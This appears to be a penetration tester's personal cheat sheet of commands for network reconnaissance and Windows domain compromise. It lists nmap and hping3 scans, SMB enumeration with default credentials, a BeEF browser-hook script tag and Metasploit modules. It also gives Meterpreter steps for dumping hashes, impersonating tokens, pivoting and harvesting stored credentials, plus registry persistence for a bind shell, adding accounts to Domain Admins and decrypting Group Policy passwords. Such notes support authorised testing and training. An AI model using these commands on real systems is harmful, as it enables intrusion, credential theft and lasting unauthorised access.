 ### ping sweep:
ICMP only (-PE istedet for -sn)
nmap -sn <range>

### Host discovery - no ping
nmap -n -sn -PS22,135,443,445 <range>

### DNS discovery
nmap -sS -sU -p 53 -n <range>

### Open/Closed/Filtered ports
hping3 -S -p 23,53,135 <IP>

### Portscan 
hping3 <IP> -S --scan known (TCP)
nmap sU <IP> (UDP)

### Sourceport
nmap -sS --source-port 53 -p 53 <range>
hping3 -S -s 53 -k -p 53 <ip>

### Idle scan:
hping3 -a <ip> -S -p 23 <ip>

### File shares:
nbtstat -a <IP> (win)
nmblookup -A <ip> (linux)

### Null session:
smbclient -L <ip>

### Enumerate shares and info:
nmap --script=smb-enum-users -p 445 10.130.40.70 --script-args
smbuser=administrator,smbpass=password

### BEEF:
Hook script: <script src="http://address:3000/hook.js"></script>

### Metasploit:
route add <range> <subnet>
auxiliary/scanner/smb/psexec_scanner - if hashes found
auxiliary/scanner/portscan/tcp
exploit/windows/local/bypassuac

### Meterpreter 
> If exploit timeout - check Priv esc via services
ipconfig
hashdump
#### use incognito
  list_tokens -u
	impersonate_token <name> (husk \\)

run autoroute -s <range>
portfwd add -l 8001 -p 80 -r <ip>
run arp_scanner -r <range> 
run winenum
run post/windows/gather/win_privs
run post/windows/gather/enum_applications (installed applications)
run post/multi/gather/filezilla_client_cred 
run post/windows/gather/enum_computers

run getgui -e
#### Maintain access:
  reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -d '"C:\inetpub\ftproot\msf_bind.exe"' -v msf_bind

load extapi
  adsi_computer_enum <domain>
	adsi_user_enum <domain>

#### shell
net user guest_1 guestpwd /add (/DOMAIN)
net localgroup "Remote Desktop Users" guest_1 /add (/DOMAIN)
net group "Domain Admins" ptester /ADD /DOMAIN
net start (installed services)
wmic service list brief
wmic service WHERE "NOT PathName LIKE '%system32%'" GET PathName,Name
icacls <folder> /grant Everyone:(F) /T

set

runas (minirunas)


Active Directory policies are stored in a special UNC path:
%USERDNSDOMAIN%\Policies

But you cannot access UNC paths via cmd, so you have to use the Sysvol share you can find
on a domain controller:
%LOGONSERVER%\Sysvol

gpp-decrypt 
